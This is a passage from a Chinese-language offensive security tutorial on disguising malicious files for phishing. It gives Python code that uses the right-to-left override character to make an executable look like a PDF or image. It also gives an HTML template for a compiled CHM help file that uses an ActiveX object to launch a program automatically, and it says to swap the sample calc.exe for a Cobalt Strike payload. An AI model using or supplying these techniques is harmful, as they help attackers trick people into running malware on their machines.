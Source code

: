 文件后缀 RTLO
---------

**他会让字符串倒着编码**

[![](https://www.chabug.org/wp-content/uploads/2021/01/20210103174703-1.png)](https://www.chabug.org/wp-content/uploads/2021/01/20210103174703-1.png)

*   用 Python 一键生成用，把 txt 改为 png 后缀

```
import os  
os.rename('test.txt', 'test-\u202egnp.txt')
```

```
import os
os.rename('cmd.exe', u'no\u202eFDP.exe')
```

CHM 文档
------

创建一个文件夹（名字随意），在文件夹里面再创建两个文件夹（名字随意）和一个 index.html 文件，在两个文件夹内部创建各创建一个 index.html 文件。然后先将下列代码复制到根文件夹中的 index.html 中

[![](https://www.chabug.org/wp-content/uploads/2021/01/20210103180223-1.png)](https://www.chabug.org/wp-content/uploads/2021/01/20210103180223-1.png)

*   在 index.html 文件中编辑

```
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM >
 <PARAM >
 <PARAM  value=',calc.exe'>
 <PARAM >
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

*   使用 cs 生成修改模版中的 calc.exe

```
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM >
 <PARAM >
 <PARAM >
 <PARAM >
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```
